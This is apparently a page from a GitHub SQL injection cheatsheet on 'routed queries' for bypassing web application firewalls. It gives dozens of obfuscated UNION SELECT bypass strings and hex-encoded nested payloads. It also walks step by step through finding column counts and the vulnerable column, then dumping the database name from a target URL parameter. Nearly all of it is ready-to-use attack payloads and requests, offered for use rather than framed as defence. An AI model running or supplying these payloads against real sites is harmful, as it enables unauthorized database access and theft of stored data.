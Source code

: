 ## Routed queries (advaced WAF bypass)
If the WAF is very hard to bypass using the given queries, the routed ones might help you.

## Identifying how many columns the payload has

```http://domain.com/index.php?id=-1 Union Select 0x3127,2,3,4``` 0x3127 = 1' (0xHEX converted)  
```http://domain.com/index.php?id=-1 Union Select 1,0x3227,3,4``` 0x3227 = 2' (0xHEX converted)  
```http://domain.com/index.php?id=-1 Union Select 1,2,0x3327,4``` 0x3327 = 3' (0xHEX converted)  
```http://domain.com/index.php?id=-1 Union Select 1,2,3,0x3427``` 0x3427 = 4' (0xHEX converted)  

If any of the payloads gives error, it means that the respective column number is vulnerable to be dumped, for example. In our case, the second payload gives error, which means, we can start dumping the second column.

If the website has WAF enabled, you can use the following WAF-based UNION queries. Simply replace ```Union Select``` with the following payloads:  

```
/*!50000%55nIoN*/ /*!50000%53eLeCt*/  
%55nion(%53elect 1,2,3)  
union+distinctROW+select+1,2,3,4-- -  
#?uNiOn + #?sEleCt  
#?1q %0AuNiOn all#qa%0A#%0AsEleCt  
/*!%55NiOn*/ /*!%53eLEct*/  
+un/**/ion+se/**/lect  
+?UnI?On?+'SeL?ECT?  
(UnIoN)+(SelECT)+1,2,3,4-- -  
+UnIoN/*&a=*/SeLeCT/*&a=*/  
%55nion(%53elect 1,2,3,4)-- -  
/**//*!12345UNION SELECT*//**/  
/**//*!50000UNION SELECT*//**/  
/**/UNION/**//*!50000SELECT*//**/  
/*!50000UniON SeLeCt*/  
union /*!50000%53elect*/  
/*!u%6eion*/ /*!se%6cect*/  
/*--*/union/*--*/select/*--*/  
union (/*!/**/ SeleCT */ 1,2,3,4)-- -  
/*!union*/+/*!select*/  
/**/uNIon/**/sEleCt/**/  
+%2F**/+Union/*!select*/  
/**//*!union*//**//*!select*//**/  
/*!uNIOn*/ /*!SelECt*/  
/**/union/*!50000select*//**/  
0%a0union%a0select%09  
%0Aunion%0Aselect%0A  
uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/  
%252f%252a*/UNION%252f%252a /SELECT%252f%252a*/  
/*!union*//*--*//*!all*//*--*//*!select*/  
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C
/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/  
+UnIoN/*&a=*/SeLeCT/*&a=*/  
union+sel%0bect  
+#1q%0Aunion all#qa%0A#%0Aselect  
%23xyz%0AUnIOn%23xyz%0ASeLecT+  
%23xyz%0A%55nIOn%23xyz%0A%53eLecT+  
union(select(1),2,3)
uNioN (/*!/**/ SeleCT */ 11)  
/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/  
%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/  
+union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C  
/*!f****U%0d%0aunion*/+/*!f****U%0d%0aSelEct*/  
+UnIoN/*&a=*/SeLeCT/*&a=*/  
+/*!UnIoN*/+/*!SeLeCt*/+  
/*!u%6eion*/ /*!se%6cect*/  
uni%20union%20/*!select*/%20  
union%23aa%0Aselect  
/**/union/*!50000select*/  
/^****union.*$/ /^****select.*$/  
/*union*/union/*select*/select+  
/*!50000UnION*//*!50000SeLeCt*/  
%252f%252a*/union%252f%252a /select%252f%252a*/  
```

In this case I used the first payload ```/*!50000%55nIoN*/ /*!50000%53eLeCt*/```, so the final payload would be:  
```http://domain.com/index.php?id=-1 /*!50000%55nIoN*/ /*!50000%53eLeCt*/ 1,0x3227,3,4```  
The payload bypasses WAF and gives SQL Error, which means the 2nd column is vulnerable to be dumped.  

## Finding the amount of columns (ORDER BY)

Since we know the second column was vulnerable, we are going to dump it using ORDER BY queries.  

Below are Union Distincs queries, which we can use for further enumerating:

```
and 0e0union distinctROW select 1,2,3,4  
and .0unIon distincrOw /*!50000sElect*/ 1,2,3,4  
AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,2,3,4  
'-,1union distinctrow%23aaaaaaaaaaaaaaa%0a select 1,2,3,4  
.0union distinct/**_**/Select 1,2,3,4  
union distinct selec%54 1,2,3,4  
UniOn DISTINCTROW sEleCt 1,2,3,4  
+union+distinct+select+1,2,3,4  
+union+distinctROW+select+1,2,3,4  
```

In our case the following payload does the job:  
```http://domain.com/index.php?id=-1 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,2,3,4```  

Replacing the number, so the final payload would be:  
```http://domain.com/index.php?id=-1 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,0x32204f524445522042592031,3,4```  where 0x32204f524445522042592031 = 2 ORDER BY 1 (0xHEX converted)  

The payload musn't show error. Keep increasing the number by 1 until you see an error. Replace the 0xHEX value on the payload with the following hex, until you will receive an error.

```
2 ORDER BY 1 -> 0x32204f524445522042592031  
2 ORDER BY 2 -> 0x32204f524445522042592032  
2 ORDER BY 3 -> 0x32204f524445522042592033  
2 ORDER BY 4 -> 0x32204f524445522042592034  
2 ORDER BY 5 -> 0x32204f524445522042592035  
2 ORDER BY 6 -> 0x32204f524445522042592036  
2 ORDER BY 7 -> 0x32204f524445522042592037  
2 ORDER BY 8 -> 0x32204f524445522042592038  
```
and so on...

In our case, **2 ORDER BY 8** is the smallest number which gives an SQL Syntax error, which means the database has 7 columns.

## Finding the number of column to dump data

The following queries are called **Union Distinct Rows** queries. Because the 7th column is vulnerable, we will add number 7 in front of each payload:

| Union Distinct Rows queries                                       | Queries converted to 0xHEX |
| ----------------------------------------------------------------- | -------------------------- |
| 2 and 0e0union distinctROW select 1,2,3,4,5,6,7                   | 0x3720616e6420306530756e696f6e2064697374696e6374524f572073656c65637420312c322c332c342c352c362c37  |
| 2 and .0unIon distincrOw /*!50000sElect*/ 1,2,3,4,5,6,7           | 0x3720616e64202e30756e496f6e2064697374696e63724f77202f2a21353030303073456c6563742a2f20312c322c332c342c352c362c37  |
| 2 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,2,3,4,5,6,7  | 0x3720416e4420706f696e742832392c3929202f2a213530303030556e494f4e2a2f202f2a21353030303053656c4563542a2f20312c322c332c342c352c362c37 |
| 2 '-,1union distinctrow%23aaaaaaaaaaaaaaa%0a select 1,2,3,4,5,6,7 | 0x3720272d2c31756e696f6e2064697374696e6374726f772532336161616161616161616161616161612530612073656c65637420312c322c332c342c352c362c37 |
| ```2 .0union distinct/**_**/Select 1,2,3,4,5,6,7```               | 0x37202e30756e696f6e2064697374696e63742f2a2a5f2a2a2f53656c65637420312c322c332c342c352c362c37 |
| 2 union distinct selec%54 1,2,3,4,5,6,7                           | 0xa3720756e696f6e2064697374696e63742073656c656325353420312c322c332c342c352c362c37 |
| 2 UniOn DISTINCTROW sEleCt 1,2,3,4,5,6,7                          | 0x3720556e694f6e2044495354494e4354524f572073456c65437420312c322c332c342c352c362c37 |
| 2+union+distinct+select+1,2,3,4,5,6,7                             | 0x372b756e696f6e2b64697374696e63742b73656c6563742b312c322c332c342c352c362c37 |
| 2+union+distinctROW+select+1,2,3,4,5,6,7                          | 0x372b756e696f6e2b64697374696e6374524f572b73656c6563742b312c322c332c342c352c362c37 |

In our case I will use the 3rd payload, so copy the 0xHEX converted payload and use it in the following payload:  
```http://domain.com/index.php?id=-1 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,0x3720416e4420706f696e742832392c3929202f2a213530303030556e494f4e2a2f202f2a21353030303053656c4563542a2f20312c322c332c342c352c362c37,3,4```  

On the response, a number will be displayed, which tells us the vulnerable column. In this case, number 6 is vulnerable.

## Dumping data from the column

Because we used the payload ```2 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,2,3,4,5,6,7```, and because the number 6 was vulnerable (on the website response), our next payload will be (simply replace number 6 with concat(), DIOS, or simple dumping queries):

```2 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,2,3,4,5,database(),7```

Convert it to 0xHEX and paste in in the next payload:  

```http://domain.com/index.php?id=-1 AnD point(29,9) /*!50000UnION*/ /*!50000SelEcT*/ 1,0x3720416e4420706f696e742832392c3929202f2a213530303030556e494f4e2a2f202f2a21353030303053656c4563542a2f20312c322c332c342c352c646174616261736528292c37,3,4``` 

We successfuly dumped the database name.

I am using **database()**, because I want to keep the cheatsheet as easy as possible, however you can use [DIOS Payloads](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Error%20Based%20SQLi#dumping-with-dios). The technique is the same, but in the end, convert the whole payload to 0xHEX.
